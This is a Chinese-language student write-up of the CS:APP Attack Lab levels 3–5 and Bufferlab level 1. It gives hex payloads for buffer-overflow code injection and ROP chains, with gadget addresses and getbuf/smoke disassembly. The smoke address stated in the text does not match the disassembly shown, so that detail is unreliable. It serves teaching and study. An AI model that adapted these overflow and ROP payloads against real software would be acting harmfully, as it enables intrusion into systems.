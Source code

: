 ### level3 ###
要求:ret touch3时，touch3的参数需要指向cookie
cookie=0x59b997fa,ad->cookie=0x5561dc7e,touch3=0x4018fa
payload
```python
bf b0 dc 61 55 c3 fa 97 b9 59 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39
39 37 66 61 00 00 00 00
```
没看懂这个题目的要求，我以为那个cookie为0x59b997fa，16进制填fa 97...就可以了，结果是每一位都要用ascii的形式表达
，然后注意字符串的位置要在ret 后面

### level4 ###
要求:实现level2通过他给的gadgets
rtarget用objdump反汇编出来看不到gadgets就离谱，于是我默默的输入了ROPgadget，
pop_rdi=0x40141b,cookie=0x59b997fa,touch2_ad=0x4017ec
payload
```python
BF 7E DC 61 55 C3 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 1B 14 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 EC 17 40 00 00 00 00 00
```

### level5 ###
要求:实现level3，栈地址开了随机化，这就有点东西了，
gets_ad=0x401b60,ad=0x00605000，touch3_ad=0x4018fa
pop_rdi=0x000000000040141b,pop_rsi=0x0000000000401383，
思路:还是和level3一样，问题是怎么得到栈的地址,我一开始想的是通过mov rsp,rdi；但是我反汇编出来的没有mov rsp,rdi或者其他可以利用传rsp的就很离谱(通过read将字符串读到可写段上应该也可以，只是，由于hex2raw的问题，不好控制输入)
payload
```python
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1a 40 00 00 00 00 00 c5 19 40 00 00 00 00 00 ab 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 dd 19 40 00 00 00 00 00 34 1a 40 00 00 00 00 00 13 1a 40 00 00 00 00 00 d6 19 40 00 00 00 00 00 c5 19 40 00 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

## lab3.1-bufferlab ##

### level1 - smoke ###
smoke函数地址为0x80c1848,对应 48 18 0C 08
然后看getbuf函数
```c
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret    
```
smoke函数
```c
08048c18 <smoke>:
 8048c18:   55                      push   %ebp
 8048c19:   89 e5                   mov    %esp,%ebp
 8048c1b:   83 ec 18                sub    $0x18,%esp
 8048c1e:   c7 04 24 d3 a4 04 08    movl   $0x804a4d3,(%esp)
 8048c25:   e8 96 fc ff ff          call   80488c0 <puts@plt>
 8048c2a:   c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 8048c31:   e8 45 07 00 00          call   804937b <validate>
```